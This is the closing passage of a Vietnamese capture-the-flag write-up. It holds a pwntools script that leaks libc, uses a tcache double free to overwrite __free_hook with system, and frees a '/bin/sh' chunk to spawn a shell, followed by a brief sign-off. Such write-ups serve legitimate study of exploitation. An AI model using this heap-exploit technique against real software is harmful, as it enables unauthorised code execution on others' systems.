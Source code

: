 ```python
log.success(hex(libc.address))

malloc1(b'31', b'abcd3') # p2
free2() # tcache[0x20] = [p2]
free2() # tcache[0x20] = [p2 -> p2]
malloc1(b'31', p64(libc.sym['__free_hook'])) # tcache[0x20] = [p2 -> __free_hook]
malloc1(b'31', 'abcd4') # tcache[0x20] = [__free_hook]
malloc1(b'31', p64(libc.sym['system']))

malloc1(b'15', b'/bin/sh')
free2() 

con.interactive()
```

Cảm ơn vì đã đọc tới đây. Nếu phát hiện có sai sót nào trong bài viết hãy để lại 1 comment nhắc tôi ở phía dưới nhé!

![Solved](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120324.png){:class="img-responsive"}
